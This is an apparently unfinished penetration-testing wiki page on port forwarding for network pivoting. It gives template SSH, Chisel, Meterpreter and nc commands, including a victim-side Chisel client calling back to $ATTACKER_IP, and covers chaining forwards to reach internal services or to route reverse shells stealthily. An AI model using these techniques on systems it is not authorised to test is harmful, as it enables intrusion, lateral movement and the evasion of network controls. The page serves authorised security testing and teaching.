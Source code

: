 # 🛠️ Port forwarding

{% hint style="danger" %}
**This is a work-in-progress**. It's indicated with the 🛠️ emoji in the page name or in the category name. Need to do some SSH config work
{% endhint %}

## Theory

Port forwarding is a pivoting technique that allows network packets to be relayed from a port to another. The tunnel can be setup between two controlled and connected machines, hence allowing a bridge between a network and another. That concept is similar to PAT (Port Address Translation), an extension of NAT (Network Address Translation) that allows multiple devices on a LAN to be mapped to a single public IP address by assigning addresses to ports numbers.

This technique is useful when an attacker wants to stay under the radar or when access to a service is limited to a specific network.

## Practice

There are multiple types of port forwarding used during penetration testing engagements.

* **Local port forwarding**: access a port that only a remote machine can communicate with (e.g. "firewalled" network, internal localhost network).
* **Remote port forwarding**: access an attacker's service (from the attacker's machine's networks) from a remote workstation that can't access those networks directly.
* **Dynamic port forwarding**: tunnel the whole attacker's network traffic (instead of only one port) through a remote machine. Explained in [SOCKS proxy](socks-proxy.md).
* **Reverse dynamic port forwarding**: tunnel the whole network traffic from a remote machine through the attacker's machine. Explained in [SOCKS proxy](socks-proxy.md).

### Basic setup

{% hint style="info" %}
While setting up port forwarding, it's important to remember that non-admin users can only open ports above 1024.
{% endhint %}

Port forwarding can be set up in many different ways.

{% tabs %}
{% tab title="SSH" %}
## SSH commands

One of the most easy is by relying on SSH however, it requires to have an SSH server running on the controlled machine and a valid account. The tester needs to open an SSH connection to the machine that should be turned into a SOCKS proxy, and supply&#x20;

* the `-L` option for a local port forwarding, along with the ports and addresses to bind
* the `-R` option for a remote port forwarding, along with the ports and addresses to bind

The command can also be used with `-N` option to make sure no command gets executed after the SSH session is opened.

```bash
# Local port forwarding
ssh -N -L $LOCAL_ADDRESS:$LOCAL_PORT:$REMOTE_ADDRESS:$REMOTE_PORT user@target

# Remote port forwarding
ssh -N -R $REMOTE_ADDRESS:$REMOTE_PORT:$LOCAL_ADDRESS:$LOCAL_PORT user@target
```

Once the ssh command exits successful (or once a session opens) the tester can then proceed to use the tunnel.



## SSH configs

The same operations can be conducted through a pre-configured agent instead of using command-line argument. TODO
{% endtab %}

{% tab title="Chisel" %}
Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.

```bash
# Attacker machine
chisel server -p $ATTACKER_PORT -reverse
# Victime machine
.\chisel.exe client $ATTACKER_IP:$ATTACKER_PORT R:$REMOTE_PORT:localhost:$LOCAL_PORT
```

{% hint style="info" %}
Chisel binaries can be downloaded from [the official GitHub repository](https://github.com/jpillora/chisel/releases).
{% endhint %}
{% endtab %}

{% tab title="Metasploit" %}
Meterpreter features built in port forwarding capabilities with the `portfwd` cmdlet.

* the `-l` option for a local port forwarding, along with the ports and addresses to bind.
* the `-p` option for a remote port forwarding, along with the ports and addresses to bind.
* the `-r` option for the targeted remote machine IP address.

```bash
# Add port forward
portfwd add –l $LOCAL_PORT –p $REMOTE_PORT –r $REMOTE_ADDRESS

# List ports forwarded
portfwd list

# Delete port forwarded
portfwd delete –l $LOCAL_PORT –p $REMOTE_PORT –r $REMOTE_ADDRESS

# Remove all port forwarded
portfwd flush
```
{% endtab %}

{% tab title="plink" %}
TODO
{% endtab %}

{% tab title="nc" %}
From a UNIX-like host, the `nc` utility can be used to setup local port forwarding.

```bash
nc -lvk $LOCAL_ADDRESS $LOCAL_PORT -c "nc -v $REMOTE_ADDRESS $REMOTE_PORT"
```
{% endtab %}
{% endtabs %}

### Chained local port forwarding

In the following example (real-world badly secured network), let's assume the remote attacker wants to access a internal workstation's web service (i.e. localhost), and that the attackers controls multiple machines that can bridge the multiple networks at play.

![](<../../.gitbook/assets/multi-port-forwarding-Local Port Forwarding.png>)

![Setting up the pivoting points](../../.gitbook/assets/carbon\(8\).png)

This setup allows the attackers to connect to the workstation web-service on port `80/TCP` by targeting port `1111/TCP` on his own machine. His machine will forward the communication to pivot1's port `2222/TCP`. Pivot1 will forward to pivot2's `3333/TCP`. Pivot2 will forward to workstation's `80/TCP`.

### Chained remote port forwarding

In the following example (real-world badly secured network), let's assume the remote attacker wants a target workstation to connect back to him with a reverse shell, and that the attackers controls multiple machines that can bridge the multiple networks at play. There are multiple scenarios where using a combination of remote port forwarding would be interesting or even required.

* the attacker wants to stay stealthy by using multiple specific hops to make the traffic legitimate-looking (workstation communicates with an internal server, an internal server communicates with a DMZed server, a DMZed server communicates with a remote client)
* the target workstation doesn't have access to the remote attacker's network (i.e. to the Internet)

![](<../../.gitbook/assets/multi-port-forwarding-Remote Port Forwarding.png>)

![Setting up the pivoting points](../../.gitbook/assets/carbon\(6\).png)

This setup allows the target workstation to communicate with the attacker's port `1111/TCP` by targeting pivot2 on port `3333/TCP`. Pivot2 will forward the communication to pivot1's port `2222/TCP` which will itself forward to attacker's port `1111/TCP`.

{% hint style="info" %}
If ports are only opened on the loopback interface, testers should make sure the `/etc/ssh/sshd_config` has the `GatewayPorts` option set to `yes` or `clientspecified`.
{% endhint %}
